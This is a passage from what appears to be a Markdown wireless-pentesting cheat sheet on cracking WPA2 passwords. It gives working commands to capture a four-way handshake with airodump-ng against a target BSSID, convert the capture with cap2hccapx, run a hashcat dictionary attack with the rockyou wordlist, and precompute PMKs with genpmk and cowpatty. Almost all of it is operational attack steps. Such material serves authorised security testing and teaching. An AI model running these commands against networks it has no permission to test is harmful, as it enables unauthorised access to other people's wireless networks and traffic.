 You will need the minimal following packets/message from 4 way handshake:
- ANonce (Message 1 and Message 3)
- SNonce (Message 2)

1. Packet 1 and 2
2. Packet 2 and 3

```
sudo airodump-ng wlan1 -c 11 --bssid 00:1C:10:00:00:00 -w ./capturePSK
```

#### Cracking WPA2 handshake
##### Dictionnary attack

Converting **.CAP** capture with handshake to **hccapx** hashcat format
```
sudo apt install git gcc
git clone https://github.com/hashcat/hashcat-utils.git
cd hashcat-utils/src/
gcc cap2hccapx.c -o cap2hccapx.bin
./cap2hccapx.bin wpa_handshake.cap handshake.hccapx
```

Dictionnary attack using hashcat
```
hashcat.exe -m 2500 handshake.hccapx wordlists/rockyou.txt
```

##### Pre Computed PMK
Pre computed PMK (Because PBKDF2 function is time consuming to proceed). You will still need to capture 4 Way handshake for SNonce, ANonce, AP MAC and Client MAC.
  - Require SSID and Passphrase (dictionnary)

```
genpmk -f wordlistPassphrase.txt -s CorpoWifi -d precomputed_PMK
cowpatty -d precomputed_PMK -s CorpoWifi -f wordlistPassphrase.txt
```

<img src="./images/pre_computed.png" width="500"/>
